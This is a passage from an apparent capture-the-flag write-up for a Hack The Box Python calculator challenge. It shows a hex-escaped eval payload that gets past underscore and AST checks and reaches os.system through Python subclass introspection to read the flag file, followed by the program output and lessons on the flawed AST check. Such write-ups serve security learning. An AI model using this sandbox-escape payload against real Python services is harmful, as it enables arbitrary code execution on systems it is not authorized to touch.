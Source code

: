 When encoded to bypass the underscore and AST checks it looks like the following.

```python
{1: eval('print(().\x5f\x5fclass\x5f\x5f.\x5f\x5fbases\x5f\x5f[0].\x5f\x5fsubclasses\x5f\x5f()[138].\x5f\x5finit\x5f\x5f.\x5f\x5fglobals\x5f\x5f["system"]("cat flag.txt"))')}
```

When running it, we get the flag!

```
Welcome to SafetyCalc (tm)!
Note: SafetyCorp are not liable for any accidents that may occur while using SafetyCalc
> {1: eval('print(().\x5f\x5fclass\x5f\x5f.\x5f\x5fbases\x5f\x5f[0].\x5f\x5fsubclasses\x5f\x5f()[138].\x5f\x5finit\x5f\x5f.\x5f\x5fglobals\x5f\x5f["system"]("cat flag.txt"))')}
HTB{45ts_4r3_pr3tty_c00l!}0
{1: None}
> 
```

## Post-solve big ideas

If you can get a foothold in python, you can easily pivot to RCE. Because the AST checks were bad for the dictionary we were allowed to have a single unsafe element; however, all child elements of that node on the AST tree could also be unsafe. That let us bypass "bad character" checks and run arbitrary python code, giving us the ability to access the os module and then run bash commands.

## Post-solve small ideas

Doing the pivot to the OS module was overkill and not really needed after getting past the AST. You could technically just open the flag file and read it. However, I overestimated the amount of restrictions on builtins access.

